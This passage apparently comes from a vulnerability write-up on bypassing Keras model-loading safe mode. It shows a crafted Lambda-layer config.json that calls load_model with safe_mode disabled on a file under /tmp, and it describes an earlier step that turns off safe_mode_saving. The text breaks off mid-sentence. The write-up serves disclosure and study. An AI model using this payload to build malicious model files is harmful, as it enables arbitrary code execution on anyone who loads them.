 
```python
def call(self, inputs, mask=None, training=None):
    kwargs = {k: v for k, v in self.arguments.items()}
    if self._fn_expects_mask_arg:
        kwargs["mask"] = mask
    if self._fn_expects_training_arg:
        kwargs["training"] = training
    return self.function(inputs, **kwargs)
```

The `kwargs` correspond to the `arguments` key in the `config.json`. The `inputs` parameter is passed when the layer is called and corresponds to the `inbound_nodes` key. I used the `kwargs` entry of `inbound_nodes` to pass the `inputs`, since the `args` type is restricted. The final call to the function is:

```python
set_global_attribute("safe_mode_saving", value=False)
```

**Step 2: Loading the model with safe mode disabled**

```json
{
  "module": "keras.layers",
  "class_name": "Lambda",
  "config": {
    "name": "unsafe_deserialization",
    "function": {
      "module": "keras.models",
      "class_name": "function",
      "config": "load_model",
      "registered_name": "function"
    },
    "arguments": {
      "safe_mode": false
    }
  },
  "build_config": {
    "input_shape": [null, 10]
  },
  "name": "unsafe_deserialization",
  "inbound_nodes": [
    {
      "args": [],
      "kwargs": {
        "inputs": "/tmp/provola/model.keras"
      }
    }
  ]
}
```

Together with the previous step, this bypasses the security checks imposed by safe mode. The `inputs` parameter represents the path of the model to be loaded. In code, the call appears as follows:
